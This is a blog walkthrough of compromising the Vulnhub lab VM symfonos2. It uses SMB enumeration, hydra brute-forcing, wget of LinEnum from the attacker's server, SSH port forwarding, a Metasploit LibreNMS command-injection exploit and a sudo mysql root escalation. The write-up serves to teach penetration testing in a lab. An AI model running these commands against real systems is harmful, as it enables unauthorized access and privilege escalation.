 ```yaml
---
layout: post
title: "symfonos2 - Vulnhub Boot2Root"
date: 2020-06-28
excerpt: "Walkthrough for the symfonos2 VM"
tags: [vulnhub, symfonos, symfonos2, Boot2Root]
comments: false
---
```


Another series I ran across on vulnhub is the symfonos series, which is a total of 6 boxes of increasing difficulty. Below is the walkthrough on the second box in the series.

## Reconnaissance & Scanning

After importing into VMware Workstation and booting up the machine, I was presented with the IP address of the host.

![symfonos2 ip address](/assets/img/symfonos2-1.png)

This can also be discovered running `netdiscover -i eth0` as shown below:

![symfonos2 netdiscover](/assets/img/symfonos2-2.png)

Now that we have the IP address of the host, we can run **nmap** to find what services are running on the machine.

![symfonos2 nmap](/assets/img/symfonos2-3.png)

As you can see, FTP, SSH, HTTP, and SMB are running on this target host. It also appears that anonymous SMB authentication is allowed. We will first enumerate the shares with **nmap's smb-enum-shares** script as shown below.

![symfonos2 nmap smb-enum-shares](/assets/img/symfonos2-4.png)

It appears that the anonymous user has access to a few shares, let's connect to the anonymous share with `smbclient \\\\192.168.68.138\\anonymous\\ -U anonymous -N`. We are able to successfully connect and there is a backups folder present with a **log.txt** file. Let's retrieve that file with **get**.

![symfonos2 smbclient pilfering](/assets/img/symfonos2-5.png)

This file contains some interesting information. It appears that the **/etc/shadow** file was backed up to **/var/backups/shadow.bak** and that anonymous FTP access is allowed.

![symfonos2 log.txt](/assets/img/symfonos2-6.png)
![symfonos2 log.txt](/assets/img/symfonos2-7.png)

Let's try to connect to the ftp servers as both anonymous and ftp. While these work, it appears that it is looking for a specific email address as a password which we have yet to uncover. Based on research, it appears that this occurs when anonymous FTP isn't configured properly.

![symfonos2 ftp attempt](/assets/img/symfonos2-8.png)

Reviewing the log file a bit further we come across a user account **aeolus**

![symfonos2 log.txt](/assets/img/symfonos2-9.png)

At this point, I decided to run hydra to see if it was able to recover the password for this user. I elected to attack ftp as we know the aeolus user is running this service so you should be able to login with his credentials once uncovered.

After several minutes, we uncovered the password for **aeolus** which is **sergioteamo**.

![symfonos2 aeolus password](/assets/img/symfonos2-10.png)

We were able to successfully authenticate with these credentials via **ssh**.

![symfonos2 aeolus password](/assets/img/symfonos2-11.png)

Let's do some enumeration. In order to enumerate, let's server up an http server and use *wget* to download Linenum.sh to our victim's computer. The server can be spun up by running `python -m SimpleHTTPServer` and then can be retrieved on the victim's pc with `wget http://192.168.68.135:8000/Linenum.sh`

![symfonos2 python http server](/assets/img/symfonos2-12.png)
![symfonos2 wget](/assets/img/symfonos2-13.png)

Next, we have to make the script executable, which can be done with `chmod 777 LinEnum.sh`

![symfonos2 wget](/assets/img/symfonos2-14.png)

Next, we run LinEnum with the thorough option and with the apache keyword option (as we know this was running from the nmap scan) with `./LinEnum.sh -t -k apache`.

After review, we see that Apache's configuration file is in it's default location of **/etc/apache2/apache2.conf**

![symfonos2 wget](/assets/img/symfonos2-15.png)

Reviewing the Apache configuration file didn't show anything useful, but under the **sites-enabled** folder is another configuration file **librenms.conf**. This appears to be running on localhost only over port 8080 as shown below.

![symfonos2 librenms](/assets/img/symfonos2-16.png)

I wasn't sure what LibreNMS was as I hadn't heard of it, but let's search MetaSploit with ``searchsploit librenms` and see if anything shows up that can be used.

![symfonos2 searchsploit](/assets/img/symfonos2-17.png)

It appears that there are several potential exploits available. However, it appears that LibreNMS is only accessible from localhost. Let's do local SSH port forwarding with `ssh -L 8080:localhost:8080 aeolus@192.168.68.138`. This is one of several tricks related to port forwarding I learned from the SANS GPEN course recently.

![symfonos2 ssh local port forwarding](/assets/img/symfonos2-18.png)

Now we should be able to view this site from a web browser at http://127.0.0.1:8080/

![symfonos2 librenms login](/assets/img/symfonos2-19.png)

Let's try logging in with **aeolus** credentials we uncovered earlier.

![symfonos2 librenms login](/assets/img/symfonos2-20.png)

Success, we were able to login. Let's see if we can exploit this further with Metasploit. Launch Metasploit with the `msfconsole` command and use the `exploit/linux/http/librenms_addhost_cmd_inject` exploit with the options shown below:

![symfonos2 msfconsole librenms exploit](/assets/img/symfonos2-21.png)

Please note, the **LHOST** is the IP address of your attacker computer. Once reviewed with `show options` type in `run` and press enter.

You should now have a new shell to the victim host.

![symfonos2 msfconsole shell](/assets/img/symfonos2-22.png)

Run `python -c 'import pty;pty.spawn("/bin/bash")'` to get an interactive shell. You will see we're logged in as the **cronos** user as well.

![symfonos2 interactive shell](/assets/img/symfonos2-23.png)

Let's run `sudo -l` and see if **cronos** has access to run any programs as root.

![symfonos2 sudo -l](/assets/img/symfonos2-24.png)

Awesome, you can run mysql as root without a password, let's take a look at [GTFOBins]("https://gtfobins.github.io/") and see if there's an exploit that can be used to escalate privileges.

There is a one liner that can be ran `sudo mysql -e '\! /bin/sh'` that should result in root access.

![symfonos2 GTFOBins](/assets/img/symfonos2-25.png)

Let's run it and see what happens.

![symfonos2 root shell](/assets/img/symfonos2-26.png)

It worked! Now you just have to navigate to the root home directory and `cat proof.txt`

![symfonos2 root proof.txt](/assets/img/symfonos2-27.png)